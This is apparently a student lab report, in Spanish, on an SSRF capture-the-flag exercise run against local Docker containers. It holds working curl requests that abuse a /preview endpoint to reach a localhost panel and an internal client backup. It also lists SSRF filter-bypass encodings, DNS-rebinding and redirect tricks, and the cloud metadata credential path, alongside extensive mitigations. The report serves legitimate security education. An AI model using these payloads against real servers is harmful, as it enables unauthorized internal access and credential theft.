

# Informe de análisis — Lab Extra SSRF

**Grupo:** 10  
**Integrantes:** Carolina Paula Corazza — @carocor1; Belén Rocío Ramello — @belramello; Chiara Agustina Kordek — @chiarakordek; Juan Pablo Saby — @JuanSaby.  
**Fecha:** 06/11/2026.
**Directorio de integrantes:** ver `INTEGRANTES.md`.
**Entorno:** laboratorio SSRF local de la cátedra, ejecutado en contenedores Docker aislados.

## Declaración de uso de IA

Se utilizó OpenCode como apoyo para organizar la evidencia de práctica y preparar un borrador de la respuesta R1. Los comandos y resultados se contrastaron con las respuestas observadas en el entorno Docker local y con el estado oficial de `./ctf status extra`.

## 1. Cadena de explotación

Las pruebas se realizaron únicamente contra los contenedores locales de la cátedra. Desde la consola atacante, el portal público `http://phantomcorp/` respondió y mostró el formulario “Previsualizar URL”. En cambio, al intentar acceder directamente a `http://phantomcorp-intra/`, el nombre no pudo resolverse (`curl: (6) Could not resolve host`, HTTP 000). Este resultado registra un fallo de resolución desde esa consola; por sí solo no permite concluir si además existía una ruta de red.

### R1 — Panel interno en localhost

La herramienta de previsualización envía al servidor una URL indicada por el usuario y devuelve el contenido obtenido. Como primera prueba de localhost, se pidió `http://127.0.0.1:1/` a través de `/preview` para observar la respuesta ante un puerto sin servicio:

```bash
curl -sS --max-time 3 "http://phantomcorp/preview?url=http%3A%2F%2F127.0.0.1%3A1%2F"
```

La respuesta mostró:

```text
No pude traer http://127.0.0.1:1/: <urlopen error [Errno 111] Connection refused>
```

La respuesta fue `Connection refused`, señal de que no había un servicio aceptando conexiones en ese puerto. Para elegir el siguiente puerto no hicimos un barrido: revisamos el código provisto para el entorno (`labs/labextra-ssrf/entorno/web/server.py`), que indica que el panel interno escucha en `127.0.0.1:9000`. Luego comprobamos ese servicio mediante la misma funcionalidad vulnerable:

```bash
curl -sS --max-time 3 "http://phantomcorp/preview?url=http%3A%2F%2F127.0.0.1%3A9000%2F"
```

el servidor devolvió el panel interno, que explícitamente se identifica como “solo localhost”, junto con la flag:

```html
<h2>PhantomCorp — Panel interno (solo localhost)</h2>
<p>Si estás viendo esto desde afuera, algo salió mal.</p>
<p>Deploy key: <b>FLAG{ssrf_localhost_panel_interno}</b></p>
```

Esto demuestra que el servidor público hizo la petición a `127.0.0.1:9000` desde su propio contexto y devolvió la respuesta a través de `/preview`. La diferencia entre el error de conexión rechazada y la respuesta HTTP del panel permite inferir qué puerto local acepta conexiones; es un oráculo de estado de puertos limitado por las respuestas observables. No implica ejecución de comandos ni una shell.

### R2 — Intranet en la red interna

El escenario del laboratorio proporcionó el nombre `phantomcorp-intra`. La consulta directa desde la consola atacante devolvió `curl: (6) Could not resolve host` (HTTP 000): eso demuestra un fallo de resolución en esa prueba, pero no permite concluir que hubiera un bloqueo de ruta. Se solicitó la raíz del host a través de la previsualización:

```bash
curl -sS --max-time 5 "http://phantomcorp/preview?url=http%3A%2F%2Fphantomcorp-intra%2F"
```

La respuesta incluyó la página interna:

```html
<h1>Intranet PhantomCorp</h1>
<p><b>USO INTERNO.</b> Si la estás viendo desde afuera, avisá a Seguridad.</p>
<p>Host: <b>FLAG{ssrf_intranet_descubierta}</b></p>
<li>
  <a href="/backups/clientes.json">backup de clientes (temporal, borrar!)</a>
</li>
```

El servidor público devolvió la página interna por `/preview`. Esto demuestra que la aplicación realizó la consulta desde su contexto de red y expuso su respuesta mediante SSRF; no demuestra que la consola atacante tuviera resolución DNS o una ruta directa a esa red.

### R3 — Lectura del backup de clientes

La página de la intranet reveló el recurso `/backups/clientes.json`. Se solicitó ese recurso a través del mismo mecanismo:

```bash
curl -sS --max-time 5 "http://phantomcorp/preview?url=http%3A%2F%2Fphantomcorp-intra%2Fbackups%2Fclientes.json"
```

La respuesta relevante fue:

```json
{
  "_aviso": "backup temporal pre-migracion. NO deberia ser accesible.",
  "clientes": [
    { "id": 1, "empresa": "Aconcagua SRL", "cuit": "30-70998877-1" },
    { "id": 2, "empresa": "Comechingones SA", "cuit": "30-71554433-6" }
  ],
  "integridad": "FLAG{ssrf_backup_clientes}"
}
```

La respuesta devuelve, mediante SSRF, un backup interno con dos registros que incluyen `id`, empresa y CUIT, además de la flag en el campo `integridad`. Esto demuestra lectura del recurso dentro del laboratorio; no hay evidencia de uso posterior de esos datos ni de su envío a un tercero.

## 2. Evidencia de progreso

Salida obtenida al ejecutar `./ctf status extra` en la consola atacante; los tres retos figuran completos:



```text
PROGRESO · LAB extra
✓  R1  El server fetchea por vos: panel interno en localhost
✓  R2  Descubrir la intranet en la red interna
✓  R3  Exfiltrar datos sensibles a traves del SSRF
3/3 (100%)
[ OK ] ¡Lab extra COMPLETO! Ponete las pilas con la próxima unidad.
```

## 3. Preguntas de análisis

### P1 — Modelo de confianza por red

La frase “la intranet no es alcanzable desde afuera” dejó de ser cierta porque el servidor público `phantomcorp`, que recibe peticiones desde la consola atacante, también está conectado a la red interna. La prueba directa desde la consola no resolvió `phantomcorp-intra`; sin embargo, al pedirle al servidor que previsualizara `http://phantomcorp-intra/`, `/preview` devolvió la portada de la intranet (R2). El componente que hizo posible el acceso fue la función de previsualización: el servidor consultó la URL desde su propia posición de red y actuó como intermediario. Así, la segmentación por sí sola no impidió que un usuario alcanzara indirectamente recursos internos a través de un servidor expuesto que acepta URLs arbitrarias.

### P2 — Errores como oráculo de puertos

En R1 se compararon dos respuestas de `/preview` sobre `127.0.0.1`: al pedir `http://127.0.0.1:1/` el servidor devolvió `Connection refused`, y al pedir `http://127.0.0.1:9000/` devolvió el contenido HTML del panel interno. La diferencia entre ambas respuestas indica el resultado de la conexión que intentó el propio servidor, visto desde su red: en el puerto 1 no había ningún servicio aceptando la conexión, y en el puerto 9000 sí había uno que respondió.

Esto convierte a `/preview` en un oráculo de puertos: aunque la función solo devuelve el resultado de una petición HTTP, ese resultado ya distingue entre "nadie escucha ahí" (error de conexión) y "algo escucha y responde" (contenido HTTP), sin que el atacante necesite ver directamente la red interna. Repitiendo la consulta con distintos puertos se podría inferir, puerto por puerto, cuáles están abiertos en `127.0.0.1` desde la perspectiva del servidor, igual que con un escaneo de puertos tradicional, pero usando la aplicación vulnerable como intermediaria.

En esta práctica solo se compararon esos dos puertos puntuales, no se hizo un barrido exhaustivo del rango. El oráculo tampoco revela más que eso: distingue puerto cerrado de puerto con un servicio que responde, pero no identifica por sí solo qué servicio es ni expone su contenido salvo que, como en este caso, la aplicación detrás del puerto devuelva una respuesta HTTP legible.

### P3 — Hallazgo profesional

**Activo afectado:** la intranet `phantomcorp-intra`, en particular `/backups/clientes.json`. **Vector:** la función `/preview` del portal público acepta una URL y realiza la petición desde el servidor conectado a la red interna. **Impacto observado:** la respuesta de R3 expuso dos registros de clientes con identificadores, nombres de empresas y CUIT. **Evidencia:** en R2, `/preview` devolvió la portada interna y el enlace al backup; en R3, la misma función devolvió el JSON con los registros y el marcador `integridad`. La falla directa de DNS desde la consola atacante no contradice el hallazgo: las solicitudes las hizo el servidor. Esto confirma exposición de datos ficticios en el entorno de práctica, no su uso posterior, transferencia a un tercero ni acceso a una infraestructura cloud real.

### P4 — Mitigaciones

Para remediar la vulnerabilidad identificada en el endpoint `/preview`, se proponen tres medidas defensivas ordenadas de mayor a menor efectividad, analizando sus alcances técnicos y limitaciones:

1. **Medida 1 (Prioridad 1 — Enfoque preventivo primario): Despliegue de un proxy de egreso dedicado y aislado, o uso de lista blanca (*allowlist*) estricta de dominios.**
   - **Mecanismo:** La solución arquitectónicamente más sólida para una funcionalidad que requiere consultar la web pública de forma genérica consiste en desacoplar el motor de peticiones: en lugar de que el servidor web principal realice los pedidos directamente, se delegan a un servicio *proxy forwarder* ubicado en una red desmilitarizada (DMZ) completamente aislada, sin enrutamiento ni acceso a la red interna corporativa (`internalnet`), a servicios de administración local (`localhost`) ni a APIs privadas. En caso de que la funcionalidad solo requiera acceder a destinos predeterminados del negocio, debe aplicarse una *allowlist* estricta a nivel de aplicación que solo permita esquemas seguros (`https://`), dominios totalmente calificados (FQDN) explícitamente autorizados y puertos estándar (443, 80).
   - **Limitaciones:** La *allowlist* fija de dominios degrada la flexibilidad si el objetivo comercial exige previsualizar URLs arbitrarias externas provistas por usuarios. Por su parte, la arquitectura de proxy de egreso aislado añade sobrecarga operativa, latencia y complejidad de mantenimiento de infraestructura. Asimismo, una *allowlist* de dominios no previene el abuso si alguno de los dominios autorizados sufre una redirección abierta (*Open Redirect*) que apunte a un recurso interno.

2. **Medida 2 (Prioridad 2 — Validación exhaustiva del destino efectivo en tiempo de conexión): Resolución DNS previa, bloqueo de rangos no públicos y control estricto de redirecciones.**
   - **Mecanismo:** La aplicación debe resolver el nombre de host antes de emitir la petición y verificar que la dirección IP numérica resultante pertenezca exclusivamente al espacio público enrutable en internet. Se debe bloquear de forma determinista cualquier dirección clasificada como: loopback (`127.0.0.0/8`, `::1`), subredes privadas RFC 1918 (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), enlace local / metadata cloud (`169.254.0.0/16`, `fe80::/10`), multicast y espacio reservado (`224.0.0.0/4`, `240.0.0.0/4`, `0.0.0.0/8`). Asimismo, debe deshabilitarse el seguimiento automático de redirecciones HTTP (`3xx`) o, si fueran necesarias, interceptar cada salto de la cabecera `Location` y revalidar la IP efectiva de destino bajo estas mismas reglas.
   - **Por qué el filtrado superficial de cadenas (*denylist*) es ineficaz:**
     - *Formatos alternativos de IP:* Una lista negra basada en strings como `"localhost"` o `"127.0.0.1"` se evade fácilmente mediante representaciones numéricas equivalentes que el stack de red del sistema operativo interpreta como válidas: notación entera/dword decimal (ej. `http://2130706433/` que equivale a `127.0.0.1`), notación octal (`http://0177.0.0.1/`), notación hexadecimal (`http://0x7f.0.0.1/`), notación abreviada (`http://127.1/`) o formatos IPv6 (`http://[::1]/` y mapeos `http://[::ffff:127.0.0.1]/`).
     - *Dominios que resuelven a direcciones internas:* Un atacante puede emplear nombres de dominio bajo su control (con registros DNS tipo A apuntando a `127.0.0.1` o IPs privadas) o servicios públicos de comodín (como `127.0.0.1.nip.io`). La URL analizada como texto no contiene palabras prohibidas, pero su resolución DNS conduce a la red interna.
     - *Redirecciones HTTP:* Si el servidor consulta una URL externa legítima que devuelve una respuesta `302 Found` con `Location: http://127.0.0.1:9000/`, una validación que solo inspecciona la URL inicial queda anulada si el cliente HTTP sigue redirecciones automáticamente (como hace `urllib.request`).
     - *Condiciones de carrera por DNS Rebinding (TOCTOU):* Si la aplicación resuelve el dominio para validarlo y luego ejecuta la petición en una llamada separada, un servidor DNS atacante configurado con TTL=0 puede responder con una IP pública autorizada en la verificación y con `127.0.0.1` en el momento de la conexión TCP real.
   - **Limitaciones:** Su implementación segura en código es compleja. Exige forzar el amarre de la conexión (*DNS pinning*) o fijar el socket de transporte directamente a la IP validada para evitar discrepancias entre la biblioteca de parsing de URLs y el resolver del sistema operativo.

3. **Medida 3 (Prioridad 3 — Defensa en profundidad a nivel de red y sistema): Reglas de egreso, restricción de esquemas, límites de consumo y monitoreo.**
   - **Mecanismo:** Establecer barreras a nivel del sistema operativo y de red para contener el radio de daño si los controles de la aplicación fallaran:
     - *Filtrado de egreso:* Configurar reglas de firewall (iptables, nftables o Security Groups) en el host del servidor web que restrinjan por defecto el tráfico saliente hacia interfaces internas: denegar conexiones hacia `127.0.0.1` en puertos que no correspondan a dependencias estrictas, bloquear el acceso hacia la red de la intranet (`internalnet` / rangos RFC 1918) y bloquear el acceso a direcciones link-local (`169.254.169.254`).
     - *Restricción de protocolos:* Configurar la biblioteca HTTP para admitir exclusivamente `http` y `https`, deshabilitando esquemas potencialmente peligrosos como `file://`, `gopher://`, `dict://` o `ftp://`.
     - *Límites operativos:* Imponer timeouts reducidos de conexión y lectura (3 a 5 segundos) y un tope estricto al tamaño del payload recibido (como los 64 KB leídos en el servidor del laboratorio) para evitar ataques de denegación de servicio por agotamiento de conexiones o exfiltraciones masivas.
     - *Auditoría y alertas:* Registrar las URLs solicitadas, las IPs resueltas y los errores de conexión, generando alertas tempranas ante ráfagas de errores sistemáticos (como `Connection refused` repetitivos), lo que permite detectar intentos de escaneo de puertos vía SSRF.
   - **Limitaciones:** Representa una capa de mitigación y contención, pero no resuelve la causa raíz en la aplicación. Si el servidor web requiere por diseño comunicarse con microservicios o bases de datos internas para operar, el firewall de egreso deberá permitir esas rutas, dejando expuestos dichos vectores ante un SSRF. Además, no impide que el servidor sea utilizado como intermediario para escanear o atacar hosts de terceros en la internet pública.

### P5 — SSRF y metadata service cloud

El *Instance Metadata Service* (IMDS) es un servicio HTTP local que los proveedores de computación en la nube (como AWS EC2, GCP Compute Engine y Azure Virtual Machines) disponibilizan de forma predeterminada en la dirección IPv4 no enrutable de enlace local (*link-local*) `169.254.169.254` (RFC 3927), y en nombres de resolución interna como `metadata.google.internal` en GCP. Este endpoint está diseñado para ser consumido exclusivamente desde el interior de la propia instancia virtual y no requiere autenticación previa en su diseño original (IMDSv1).

El servicio de metadata expone datos de configuración del entorno (identificadores de instancia, configuraciones de red, scripts de inicio en `user-data` que a menudo contienen credenciales residuales) y, de manera crítica, **credenciales de seguridad temporales** asociadas al rol de identidad y acceso (IAM Role) asignado a la instancia. Por ejemplo, en AWS EC2, una petición `GET` a `http://169.254.169.254/latest/meta-data/iam/security-credentials/<nombre-rol>` devuelve un payload JSON con `AccessKeyId`, `SecretAccessKey` y `Token` de sesión válidos, generados por AWS Security Token Service (STS).

La presencia de una vulnerabilidad SSRF en una aplicación desplegada en la nube reviste una gravedad significativamente superior a la observada en este laboratorio por las siguientes razones:

1. **Trascendencia del perímetro local:** En este laboratorio, el SSRF operó sobre contenedores Docker locales (`labnet` e `internalnet`), permitiendo consultar un servicio en localhost (`127.0.0.1:9000`) y leer un archivo en la intranet (`phantomcorp-intra:80`). El impacto quedó estrictamente confinado a los servicios locales de la red simulada. En cambio, en un entorno cloud, las credenciales temporales exfiltradas a través de `169.254.169.254` son válidas contra las APIs públicas globales del proveedor cloud. El atacante puede extraer dichas credenciales e importarlas en su propia máquina fuera del entorno para ejecutar comandos autenticados (mediante AWS CLI o SDKs), accediendo a buckets de almacenamiento (S3), bases de datos gestionadas, gestores de secretos o interfaces de control de la cuenta.
2. **Dependencia del alcance y controles del rol IAM:** El impacto real depende directamente de las políticas y permisos asignados al rol de la instancia (principio de menor privilegio). Si la máquina contaba con un rol sobre-privilegiado (por ejemplo, con permisos de administración general o acceso irrestricto de lectura a almacenamiento), el atacante puede lograr el compromiso íntegro de la cuenta corporativa. Si, por el contrario, los permisos están estrictamente restringidos a los recursos mínimos indispensables y se aplican controles perimetrales (como *Service Control Policies* - SCPs o endpoints de VPC privados), el impacto se acota al ámbito funcional de dicho rol.
3. **Mecanismos modernos de contención (IMDSv2):** A diferencia de las peticiones HTTP simples (`GET`) vulnerables en IMDSv1, las implementaciones cloud actuales mitigan este vector forzando el uso de **IMDSv2**, el cual exige un flujo orientado a sesión: requiere solicitar previamente un token temporal mediante una petición HTTP `PUT` con una cabecera obligatoria (`X-aws-ec2-metadata-token-ttl-seconds`), e incorporar dicho token en el encabezado `X-aws-ec2-metadata-token` en las peticiones posteriores. Dado que la mayoría de los vectores SSRF simples solo permiten consultas `GET` y no admiten la inyección de métodos `PUT` ni cabeceras HTTP personalizadas, el acceso al servicio de metadata queda bloqueado.

*Aclaración técnica sobre el alcance:* Se deja explícito que en el presente laboratorio se interactuó de manera exclusiva con recursos internos simulados en contenedores Docker locales (`phantomcorp` y `phantomcorp-intra`), no habiéndose realizado consultas ni accedido a metadata real de ninguna infraestructura de computación en la nube.

## 4. Conclusión ejecutiva

Durante la evaluación de seguridad del portal de PhantomCorp en el entorno controlado de laboratorio, se demostró la existencia de una vulnerabilidad crítica de Server-Side Request Forgery (SSRF, CWE-918) en la utilidad pública `/preview`. Al carecer de validación y control sobre las URLs solicitadas, el servidor web actuó como intermediario involuntario, permitiendo a un atacante no autenticado interactuar con servicios internos que escuchan únicamente en `localhost` (panel de control en `127.0.0.1:9000`, R1) y franquear la segmentación de red para consultar la intranet corporativa (`phantomcorp-intra`, R2). Esta debilidad posibilitó la exfiltración y lectura de un archivo de respaldo pre-migración con datos de identificación comercial y tributaria de clientes (R3). No obstante, el alcance del hallazgo quedó estrictamente restringido a la lectura de información en contenedores Docker locales simulados: no se obtuvo ejecución remota de comandos, no hubo compromiso del sistema operativo anfitrión, no se accedió a servicios de metadata ni infraestructura en la nube, ni se evidenció transferencia posterior de datos fuera del entorno de prueba. Como medidas correctivas inmediatas, se recomienda al CTO desactivar o rediseñar la previsualización directa delegando las consultas a un proxy de egreso desmilitarizado y aislado, incorporar una validación rigurosa de las direcciones IP efectivas tras la resolución DNS para bloquear rangos privados (RFC 1918), loopback y enlace local, y establecer reglas de firewall de egreso que revoquen de forma predeterminada el acceso del servidor público a la red interna y a puertos locales no esenciales.
